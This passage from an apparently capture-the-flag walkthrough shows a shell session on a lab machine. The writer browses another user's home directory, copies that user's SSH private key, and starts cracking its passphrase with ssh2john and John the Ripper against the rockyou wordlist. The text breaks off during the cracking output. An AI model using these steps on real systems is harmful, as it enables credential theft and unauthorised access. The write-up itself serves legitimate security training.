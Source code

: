 ```

jan@basic2:~$ ls -l
total 0

jan@basic2:~$ cd ..

jan@basic2:/home$ ls
jan  kay

jan@basic2:/home$ cd kay

jan@basic2:/home/kay$ ls
pass.bak

jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied

jan@basic2:/home/kay$ ls -la
total 48
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh

jan@basic2:/home/kay$ cd .ssh

jan@basic2:/home/kay/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub

jan@basic2:/home/kay/.ssh$ cat id_rsa

jan@basic2:/home/kay/.ssh$ cat id_rsa.pub
```
- We found 2 interesting files, id_rsa (private key) and id_rsa.pub (public key) for SSH. Copy the whole id_rsa, will be used as a means to escalate our privilege.
- Create a new file and paste the id_rsa to the file, name it as **id-rsa-pri**. The file can be set to be executed only by the owner.
```
❯ nano id-rsa-pri 
❯ chmod 700 id-rsa-pri
```
- Login attempt using the SSH private key is protected.
```
❯ ssh -i id-rsa-pri kay@10.10.62.247                                                                                                                                      ─╯
load pubkey "id-rsa-pri": invalid format
Enter passphrase for key 'id-rsa-pri':
```
- To overcome this challenge, we need to crack the SSH key using John The Ripper by point John the Ripper to the given hash file (hash.txt), with your dictionary (rockyou.txt)
```
❯ locate ssh2john
/usr/share/john/ssh2john.py

❯ /usr/share/john/ssh2john.py id-rsa-pri > hash.txt

❯ cat hash.txt 
id-rsa-pri:$sshng$1$16$6A....

❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt             
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
```